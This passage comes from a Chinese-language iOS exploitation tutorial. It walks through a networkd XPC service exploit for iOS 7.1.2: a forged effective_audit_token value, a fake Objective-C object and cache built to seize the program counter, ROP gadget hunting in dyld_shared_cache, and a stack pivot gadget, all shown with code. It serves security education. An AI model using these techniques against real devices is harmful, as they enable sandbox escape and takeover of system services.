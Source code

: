 ```

```

随后我们可以使用`NSLog(@"%@",dict);`将我们构造好以后的xpc数据打印出来：

![p6](http://drops.javaweb.org/uploads/images/ddf1f2aa1f90cf1ac0ef388f7c2cea40cf650019.jpg)

除了effective_audit_token以外的其他数据都是正常的。为了攻击这个系统服务，我们把`effective_audit_token`的值用`xpc_dictionary_set_uuid`设置为`{0x0, 0x1fec000};`。0x1fec000这个地址保存的将会是我们伪造的Objective-C对象。构造完xpc数据后，我们就可以将数据发送到networkd服务端触发漏洞了。但如何构造一个伪造的ObjectC对象，以及如何将伪造的对象保存到这个地址呢？请继续看下一章。

0x03 构造fake Objective-C对象以及Stack Pivot
=====

首先我们需要通过伪造一个fake Objective-C对象和构造一个假的cache来控制pc指针。这个技术我们已经在《iOS冰与火之歌 – Objective-C Pwn and iOS arm64 ROP》中介绍了。简单说一下思路：

第一步，我们需要找到selector在内存中的地址，这个问题可以使用`NSSelectorFromString()`这个系统自带的API来解决，比如我们需要用到”release”这个selector的地址，就可以使用`NSSelectorFromString(@"release")`来获取。

第二步，我们要构建一个假的receiver，假的receiver里有一个指向假的objc_class的指针，假的objc_class里又保存了假的cache_buckets的指针和mask。假的cache_buckets的指针最终指向我们将要伪造的selector和selector函数的地址。这个伪造的函数地址就是我们要执行的ROP链的起始地址。

最终代码如下：

```
hs->fake_objc_class_ptr = &hs->fake_objc_class;
hs->fake_objc_class.cache_buckets_ptr = &hs->fake_cache_bucket;
hs->fake_objc_class.cache_bucket_mask = 0;
hs->fake_cache_bucket.cached_sel = (void*) NSSelectorFromString(@"release");
hs->fake_cache_bucket.cached_function = start address of ROP chain

```

既然通过fake Objective-C对象，我们控制了xpc service的pc，我们就可以在sandbox外做些事情了。但因为DEP的关系，如果我们没有给kernel打patch，我们并不能执行任意的shellcode。因此我们需要用ROP来达到我们的目的。虽然program image，library，堆和栈等都是随机，但好消息是`dyld_shared_cache`这个共享缓存的地址开机后是固定的，并且每个进程的`dyld_shared_cache`都是相同的。这个`dyld_shared_cache`有好几百M大，基本上可以满足我们对gadgets的需求。因此我们只要在自己的进程获取`dyld_shared_cache`的基址就能够计算出目标进程gadgets的位置。

`dyld_shared_cache`文件一般保存在/System/Library/Caches/com.apple.dyld/这个目录下。我们下载下来以后，可以使用jtool将里面的dylib提取出来。比如我们想要提取CoreFoundation这个framework，就可以使用：

`jtool -extract CoreFoundation ./dyld_shared_cache_armv7`

随后就可以用ROPgadget这个工具来搜索gadget了。如果是arm32位的话，记得加上thumb模式，不然默认是按照arm模式搜索的，gadget会少很多：

`ROPgadget --binary ./dyld_shared_cache_armv7.CoreFoundation --rawArch=arm --rawMode=thumb`

接下来我们需要找到一个用来做stack pivot的gadget，因为我们刚开始只控制了有限的几个寄存器，并且栈指针指向的地址也不是我们可以控制的，如果我们想控制更多的寄存器并且持续控制pc的话，就需要使用stack pivot gadget将栈指针指向一段我们可以控制的内存地址，然后利用pop指令来控制更多的寄存器以及PC。另一点要注意的是，如果我们想使用thumb指令，就需要给跳转地址1，因为arm CPU是通过最低位来判断是thumb指令还是arm指令的。我们在iphone4s 7.1.2上找到的stack pivot gadgets如下：

```
/*
__text:2D3B7F78    MOV      SP, R4
__text:2D3B7F7A    POP.W    {R8,R10}
__text:2D3B7F7E    POP      {R4-R7,PC}
*/

hs->stack_pivot= CoreFoundation_base + 0x4f78 + 1;
NSLog(@"hs->stack_pivot  = 0x%08x", (uint32_t)(CoreFoundation_base + 0x4f78));

```
